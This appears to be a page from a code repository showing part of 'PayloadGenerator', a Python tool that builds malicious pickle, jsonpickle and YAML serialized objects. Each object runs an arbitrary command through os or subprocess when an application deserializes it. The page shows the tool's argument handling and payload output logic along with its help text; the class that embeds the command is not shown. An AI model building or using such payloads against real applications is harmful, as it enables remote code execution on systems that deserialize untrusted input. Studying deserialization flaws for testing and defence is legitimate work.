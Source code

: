 ```python
    parser.add_argument(
        '-v', '--vector', required=False, choices=["os", "subprocess"], default="os",
        help='Save payload to file')
    parser.add_argument(
        '-f', '--format', required=True, choices=["pickle", "json", "yaml", "#"], default="#",
        help='Serialization archive format')
    parser.add_argument(
        '-c', '--command', type=str, required=False, default=None, help='Command for the payload')

    args = parser.parse_args()

    if args.format == "#":
        print(f"[*] The following format are accepted:")
        print_available_formats()
        sys.exit()
    if not args.command:
        print(f"[-] A command (-c) is required to generate the payload")
    command = args.command

    print(f"[+] Generating serialized object for:")
    print(f"    {command}")
    cls = Payload(command, args.vector)

    if args.format == "pickle":
        if args.save:
            with open("payload.bin", "wb") as payload:
                payload.write(_pickle.dumps(cls))
        else:
            print(f"[+] Final Payload:\n    {_pickle.dumps(cls)}")
    elif args.format == "json":
        if args.save:
            with open("payload.json", "w") as payload:
                payload.write(jsonpickle.encode(cls))
        else:
            print(f"[+] Final Payload:\n    {jsonpickle.encode(cls)}")
    elif args.format == "yaml":
        if args.save:
            with open("payload.yml", "w") as payload:
                yaml.dump(cls, payload)
        else:
            p = yaml.dump(cls).replace('\n', '\n    ')
            print(f"[+] Final Payload:\n    {p}")
    else:
        sys.exit()
```

The functions provided by this simple tool can be inspected using the help:

```bash
$ python PayloadGenerator.py -h
usage: PayloadGenerator.py [-h] [-d] [-s] [-v {os,subprocess}] -f {pickle,json,yaml,#} [-c COMMAND]

PayloadGenerator - A simple serialization payload generator

optional arguments:
  -h, --help            show this help message and exit
  -d, --debug           Enable debug messages
  -s, --save            Save payload to file
  -v {os,subprocess}, --vector {os,subprocess}
                        Save payload to file
  -f {pickle,json,yaml,#}, --format {pickle,json,yaml,#}
                        Serialization archive format
  -c COMMAND, --command COMMAND
                        Command for the payload
```